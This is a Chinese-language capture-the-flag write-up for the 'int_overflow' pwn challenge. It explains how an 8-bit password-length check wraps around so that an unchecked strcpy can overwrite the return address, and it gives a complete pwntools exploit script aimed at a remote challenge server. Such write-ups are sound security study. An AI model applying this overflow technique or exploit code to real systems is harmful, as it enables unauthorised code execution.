 # wp

checksec 看一下。

```sh
gdb-peda$ checksec int_overflow
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

没有栈保护。IDA中 Shift+F12，Ctrl+F搜flag。跟。。没有引用。

`.text:0804868B what is this`

想办法跳到这儿。。跟main=>login, check_passwd,

`strcpy(&dest, s);`  这里没检查，可利用。

要想利用到strcpy这一步，要么你输入的passwd长度>3 && <=8，要么使passwd的长度过长，而v3最大可以存的长度为255，所以直接在v3处造成整数溢出进入else，整数溢出需要255，返回地址需要4字节，所以passwd长度达到259即可。


```c
  puts("Please input your passwd:");
  read(0, &buf, 0x199u);
  return check_passwd(&buf); // 检查输入的passwd
```

```c
char *__cdecl check_passwd(char *s)
{
  char *result; // eax
  char dest; // [esp+4h] [ebp-14h]
  unsigned __int8 v3; // [esp+Fh] [ebp-9h] // int8 可溢出

  v3 = strlen(s);
  if ( v3 <= 3u || v3 > 8u ) // 重点。这里 整形溢出
  {
    puts("Invalid Password");
    result = (char *)fflush(stdout);
  }
  else
  {
    puts("Success");
    fflush(stdout);
    result = strcpy(&dest, s);
  }
  return result;
}

```
```asm
.text:080486B5                 add     esp, 10h
.text:080486B8                 mov     [ebp+var_9], al ;将长度放到al寄存器了，al是个8位
.text:080486BB                 cmp     [ebp+var_9], 3
; al八位寄存器对于无符号整数来说是有0~255的范围的。
; 可以看到程序把s放到一个al寄存器中，al是一个八位寄存器，我们知道，八位寄存器对于无符号整数来说是有0~255的范围的。
```

函数首先设定了v3变量，但是大小只有一个字节，共8bit。前面对passwd进行长度限制时，最大长度为0x199，这很明显一个字节存储不下。那么会发生什么呢？整数溢出。

输入的passwd的长度给到v3，进行判断，因为存在整数溢出，所以这里输入的字符的个数不管是3～8还是256+3~256+8, 即259～264都是可以通过验证的。

再往下，使用strcpy将passwd拷贝进stack中，stack中给出的保存passwd的大小为0x14 :

再看dest

```asm
-00000014 dest            db ?
-00000013                 db ? ; undefined
-00000012                 db ? ; undefined
-00000011                 db ? ; undefined
-00000010                 db ? ; undefined
-0000000F                 db ? ; undefined
-0000000E                 db ? ; undefined
-0000000D                 db ? ; undefined
-0000000C                 db ? ; undefined
-0000000B                 db ? ; undefined
-0000000A                 db ? ; undefined
-00000009 var_9           db ?
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004                 db ? ; undefined
-00000003                 db ? ; undefined
-00000002                 db ? ; undefined
-00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

  
  从汇编代码中可以看到，想要覆盖到返回地址，先使用0x14 个数据覆盖stack拷贝的passed的内存区域，然后使用4字节数据覆盖ebp，再使用"cat flag"的地址覆盖返回地址，最后接上262剩余的数据即可。

```python
from pwn import *
# context(log_level = 'debug', arch = 'i386', os = 'linux') # 能显示调试信息

io = remote('124.126.19.106',48586)
io.sendlineafter('choice', '1')
io.sendlineafter('your username:','123')

payload = flat('a'*(0x14+4), p32(0x0804868B))
payload = payload.ljust(259, b'a')
io.sendlineafter("passwd:\n",payload)

io.interactive()
io.close()
```